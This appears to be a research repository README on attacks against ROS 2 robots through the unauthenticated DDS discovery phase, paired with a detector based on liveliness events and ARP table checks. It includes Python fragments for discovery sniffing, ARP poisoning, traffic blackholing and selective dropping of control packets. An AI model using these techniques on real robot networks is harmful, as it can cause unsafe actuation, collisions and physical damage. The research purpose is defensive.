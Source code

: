 # Cross-Layer Attacks from ROS 2 Discovery phase
<p align="center">
  <img alt="ROS2 logo" src="https://img.shields.io/badge/ROS--2-Humble-blue?style=for-the-badge">
  <img alt="Fast DDS logo" src="https://img.shields.io/badge/Fast--DDS-2.6.9-brightgreen?style=for-the-badge">
  <img alt="Scapy" src="https://img.shields.io/badge/Scapy-Packet%20Crafting-orange?style=for-the-badge">
</p>

## 📝 Paper Summary
ROS 2 protects communication data through SROS 2, but the unauthenticated discovery phase remains a security blind spot.
During the discovery phase, metadata such as IP addresses, ports, and participant identifiers are exposed and can be leveraged for ARP-based snooping, spoofing, and cross-layer attacks.

We design and implement cross-layer attack chains that manipulate lower network layers by leveraging these discovery-phase weaknesses, and demonstrate their feasibility through experiments.
In real autonomous robot scenarios, we demonstrate that:

- **DoS attacks**: Even a short DoS lasting ~18 seconds can cause localization failure and induce a *kidnapped-robot* state.  
- **Selective forwarding attacks**: Dropping specific control packets can covertly block robot commands, leading to unsafe actuation, collisions, and potential physical damage.  

To counter these threats, we propose a detection mechanism that leverages QoS events, specifically ROS 2 liveliness events, to raise alerts during abnormal conditions and enable timely countermeasures.

Experiments were conducted on ROS 2 Humble with Fast DDS 2.6.9 over IEEE 802.11ac wireless links.
The attack code is released here to highlight how easily such vulnerabilities can be reproduced in practice, even against real robot systems.

# 💡 How the Cross-Layer Attack Chain Works
## Step 1: Multicast Join & SPDP Reception
The script consists of three logical stages: (1) joining the DDS discovery multicast, (2) capturing discovery packets, and (3) parsing RTPS to extract unicast locators.
### 1. Joining the Multicast Group
> - Create a UDP socket and call IP_ADD_MEMBERSHIP to join the standard ROS 2 discovery multicast group so that SPDP announcements reach the host.
> ```python
> mreq = struct.pack("4s4s", socket.inet_aton(MCAST_GRP), socket.inet_aton(LISTEN_IP))
> sock.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)
> ```

### 2. Packet Sniffing with Scapy
> - Use the Scapy tool to sniff and capture SPDP traffic with a BPF filter, processing each packet.
> ```python
> sniff(
>     filter=f"udp and host {MCAST_GRP} and port {SPDP_PORT}",
>     prn=packet_handler,
>     store=False
> )
> ```
### 3. Unicast Locator Extraction (RTPS Parsing)
> - Scan RTPS submessages, find DATA (ID 0x15), then parse the SerializedPayload → ParameterList to extract Unicast Locator parameters.
> ```python
> # Find DATA Submessage (ID: 0x15)
> if submessage_id == 0x15:
>     # Loop through ParameterList
>     while param_offset < param_list_end:
>         # Find Unicast Locator PID
>         if pid in [PID_METATRAFFIC_UNICAST_LOCATOR, PID_DEFAULT_UNICAST_LOCATOR]:
>             # Decode Locator data (kind, port, address)
>             ...
>             return f"UDPv4:{ip_addr}:{port}"
> ```


## Step 2: Cross-Layer Attack Execution (MITM / DoS / Selective Forwarding)
> **[❗] Purpose.**
> 
>This section documents a controlled feasibility demonstration conducted in a closed testbed to evaluate detection and resilience of ROS 2/DDS-RTPS systems. The procedures are intended solely for defensive research under proper authorization.
### 1. ARP Poisoning
> - Alters the ARP cache tables of the target nodes, rerouting their traffic through the attacker and thereby establishing an man-in-the-middle (MITM) position between the endpoints.
> ```python
> # Poison the target's ARP table
> arp = ARP(op=2, pdst=victim_ip, psrc=source_ip, hwdst=victim_mac)
> sendp(Ether(dst=victim_mac)/arp, iface=iface, verbose=False)
> ```

### 2. Traffic Hijacking
> **Denial-of-Service (Drop-All topic)**
> - Disables forwarding at the interposed test node so that intercepted traffic is not relayed, effectively severing connectivity between peers.
> ```python
> # Disable IP forwarding on the attacker's machine
> if sysname == "Linux":
>     subprocess.run(["sysctl", "-w", f"net.ipv4.ip_forward=0"], check=True)
> ```

> **Selective Forwarding Attack (Topic-Aware)**
> - Inspects RTPS headers to identify Writer Entity IDs associated with designated application streams and conditionally drops those packets while forwarding others, making the disruption harder to detect.
> ```python
> def nfqueue_callback(packet, state):
>     """NetfilterQueue callback for selective packet dropping"""
>     pkt = IP(packet.get_payload())
>     ...
>             # Check for target Writer Entity ID
>             for submsg in rtps_data.get('submessages', []):
>                 writer_entity_id = submsg.get('writer_entity_id', 'N/A')
>                 if writer_entity_id and state.should_drop_entity_id(writer_entity_id):
>                     print(f"[DROP] Blocking packet with Writer Entity ID: {writer_entity_id}")
>                     packet.drop()  # Drop specific packets
>                     return
>             
>     packet.accept()  # Forward all other packets
> ```

---
## 🔎 The Detection: QoS Triggered Anomaly Detection.
### 📜 Overview
This configuration underpins the node’s diagnostic capability. When a liveliness event is triggered (i.e., the liveliness lease is not renewed within lease_duration), the node launches an automated investigation rather than treating it as a mere disconnection. 

Immediately after the event, the node inspects the ARP table to distinguish causes:

- **No table change** → likely a benign network condition (temporary latency, loss, roaming).

- **Table change** → potential attack (e.g., IP→MAC remap of a publisher/gateway, or a single MAC mapped to multiple IPs).

This two-step process differentiates transient delay from deliberate manipulation.

### 1. QoS Event Callback Configuration
> - Liveliness callback fires when the publisher’s liveliness lease expires (NOT_ALIVE).
> ``` cpp
> auto qos = rclcpp::QoS(rclcpp::KeepAll()).reliable();
> qos.liveliness(RMW_QOS_POLICY_LIVELINESS_AUTOMATIC);
> qos.liveliness_lease_duration(std::chrono::seconds(2)); 
> // Bind the liveliness_callback function to the event
> rclcpp::SubscriptionOptions options;
> options.event_callbacks.liveliness_callback =
> std::bind(&MinimalSubscriber::liveliness_callback, this, _1);
> ```
>
### 2. Event-Driven Diagnostics (ARP Verification)
> **Update ARP Cache**: The node executes the system command arp -n to fetch the current IP-to-MAC address mappings on the network.
>
> **Verify Changes & Detect Conflicts**: It compares the newly fetched ARP table against its previously stored version.
> Critically, it checks if a single MAC address is mapped to multiple IP addresses.
> ``` cpp
> // C++ code snippet for the liveliness callback
> void MinimalSubscriber::liveliness_callback(rclcpp::QOSLivelinessChangedInfo &event)
> {
> // If a publisher is declared "not alive"...
>   if (event.not_alive_count > 0) {
>       // ...update the local ARP cache...
>       update_arp_cache();
>       // ...and verify it for changes and conflicts.
>       verify_arp_changes();
>     }
> }
> ```
✅ Platform note: Implemented and tested on Linux; root privileges may be required to access detailed arp cache table info.

## 📢 Notice
This project is currently compatible with ROS 2 Humble using Fast DDS 2.6.9. 
